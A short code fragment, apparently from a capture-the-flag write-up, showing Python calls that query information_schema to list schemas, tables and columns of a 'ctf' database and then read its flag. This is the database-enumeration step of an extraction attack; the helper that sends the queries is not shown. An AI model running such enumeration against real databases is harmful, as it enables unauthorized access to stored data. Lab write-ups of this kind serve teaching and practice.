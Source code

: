 ```python=
get_all("select schema_name FROM information_schema.schemata")
print("---get ctf table name---")
get_all("select table_name  FROM information_schema.tables WHERE TABLE_SCHEMA = 'ctf'")
print("----get ctf table column_name---")
get_all("select column_name  FROM information_schema.columns WHERE table_name = 'ctf'")
print("---get flag---")
get_all('SELECT flag FROM ctf')
```
